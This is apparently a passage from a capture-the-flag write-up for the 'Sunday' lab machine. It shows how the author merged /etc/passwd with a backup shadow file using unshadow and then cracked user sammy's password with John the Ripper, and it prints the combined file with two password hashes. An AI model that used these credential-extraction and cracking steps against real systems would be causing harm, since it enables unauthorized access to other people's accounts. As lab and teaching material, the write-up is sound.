 #### Pivoting to Sammy

We can use John The Ripper to crack the hash and then be sammy. For that I needed two files: ``/etc/passwd`` and ``/backup/shadow.backup`` (which is an incomplete backup of ``/etc/shadow`` as it doesn't have the sudo hash). With that in mind, I first need to join both files together so that john can parse them. I ran the following in my local machine:

```sh
unshadow passwd shadow.backup > john_pwd.txt
```

Where the contents of ``john_pwd.txt`` are:

```
root:x:0:0:Super-User:/root:/usr/bin/bash
daemon:x:1:1::/:
bin:x:2:2::/usr/bin:
sys:x:3:3::/:
adm:x:4:4:Admin:/var/adm:
lp:x:71:8:Line Printer Admin:/usr/spool/lp:
uucp:x:5:5:uucp Admin:/usr/lib/uucp:
nuucp:x:9:9:uucp Admin:/var/spool/uucppublic:/usr/lib/uucp/uucico
dladm:x:15:3:Datalink Admin:/:
smmsp:x:25:25:SendMail Message Submission Program:/:
listen:x:37:4:Network Admin:/usr/net/nls:
gdm:x:50:50:GDM Reserved UID:/:
zfssnap:x:51:12:ZFS Automatic Snapshots Reserved UID:/:/usr/bin/pfsh
xvm:x:60:60:xVM User:/:
mysql:NP:70:70:MySQL Reserved UID:/:
openldap:*LK*:75:75:OpenLDAP User:/:
webservd:*LK*:80:80:WebServer Reserved UID:/:
postgres:NP:90:90:PostgreSQL Reserved UID:/:/usr/bin/pfksh
svctag:*LK*:95:12:Service Tag UID:/:
nobody:*LK*:60001:60001:NFS Anonymous Access User:/:
noaccess:*LK*:60002:60002:No Access User:/:
nobody4:*LK*:65534:65534:SunOS 4.x NFS Anonymous Access User:/:
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:101:10:sammy:/export/home/sammy:/bin/bash
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:65535:1:sunny:/export/home/sunny:/bin/bash
```

Now that john can parse them it's time to get cracking!

*Getting Sammy's password*

![Img](/assets/posts_details/Sunday/images/sammy_pwd.png)
